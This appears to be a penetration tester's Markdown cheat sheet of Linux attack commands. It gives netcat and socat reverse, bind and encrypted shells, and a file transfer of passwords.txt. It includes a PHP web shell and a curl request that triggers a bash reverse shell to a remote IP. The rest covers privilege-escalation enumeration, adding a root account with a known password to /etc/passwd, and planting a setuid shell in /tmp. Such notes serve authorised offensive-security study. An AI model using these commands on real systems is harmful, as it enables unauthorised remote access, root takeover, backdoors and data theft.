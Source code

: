 # Linux 
- Important locations
  - /bin - have binaries (ls, pwd etc.)
  - /sbin - system programs (fdisk, sysctl, etc.)
  - /etc - config files
  - /tmp - temp files
  - /usr/bin - applications (nmap, etc.)
  - /usr/share - application support and data files

# File transfer
- `nc -nv 10.10.10.10 443 < nc.exe` `nc -nlvp 443 > nc.exe`
- socat `socat TCP4-LISTEN:443,fork file:passwords.txt` `socat TCP4:10.10.10.10:443 file:received.txt,create`

# Linux Shells
Run once we get shell `python -c "import pty;pty.spawn('/bin/bash')";export TERM=xterm;stty raw -echo`

- netcat(nc)
  - Reverse shell `nc -nv 10.10.10.10 443 -e /bin/bash` 
  - Bind shell `nc -nvlp 443 -e /bin/bash`
- socat
  - Reverse shell `socat TCP4:10.10.10.10:443 EXEC:/bin/bash`
  - Listener `socat -d -d TCP4-LISTEN:443 STDOUT`
  - Bind shell `socat TCP-LISTEN:443 EXEC:/bin/bash`
  - Connect `socat - TCP4:10.10.10.10:443`
  - Encrypted shell
    - Generate cert `openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt;cat bind_shell.key bind_shell.crt > bind_shell.pem`
    - Bind shell `socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash`
    - Connect `socat - OPENSSL:10.10.10.10:443,verify=0`

- PHP reverse shell
  -  Shell `<?php echo shell_exec($_REQUEST["cmd"])?>`
  -  Run `curl -X POST hxxp://10.10.10.143/pwned.php --data-urlencode 'exec=bash -c "bash -i >& /dev/tcp/10.10.14.4/1234 0>&1"'`

# Linux privilege escalation
- [Linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) for enumeration
- [GTFObins](https://gtfobins.github.io/)
- Kernal exploits [linux-exploit-suggester-2.pl](https://github.com/jondonas/linux-exploit-suggester-2)

- id; uname -a; whoami
- hostname
- `cat /etc/issue` `cat /etc/*-releas` `uname -r` `arch` 
- cat /etc/passwd
- Environment variables
  - echo $PATH, $PWD, $HOME
  - `env` `printenv`
- Running process `ps aux` `ps -ef | grep root` `ps -fC apache2`
- Bash history `history` `cat /home/USER/.bash_history`
- Startup enabled services `systemctl --all list-unit-files | grep enabled`
- Networking info `/sbin/route` `ip a`
- Connections `ss -anp`
- Linux firewall `/etc/iptables`
- Cron jobs `ls -lah /etc/cron*` `cat /etc/crontab` `grep "CRON" /var/log/cron.log`
- Installed apps `dpkg -l`
- Writable `find / -writable -type d 2>/dev/null`
- Unmounted devices and listing other drives `cat /etc/fstab` `/bin/lsblk` `mount`
- Load drivers `lsmod` `/sbin/modinfo libata`
- SUID files `find / -perm -u=s -type f 2>/dev/null`
- Writable /etc/passwd `echo "root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash" >> /etc/passwd` `su root2` password is `evil`
- Stickybit `cp /bin/sh /tmp/sh;chmod 4755 /tmp/sh;` # now `/tmp/sh -i`
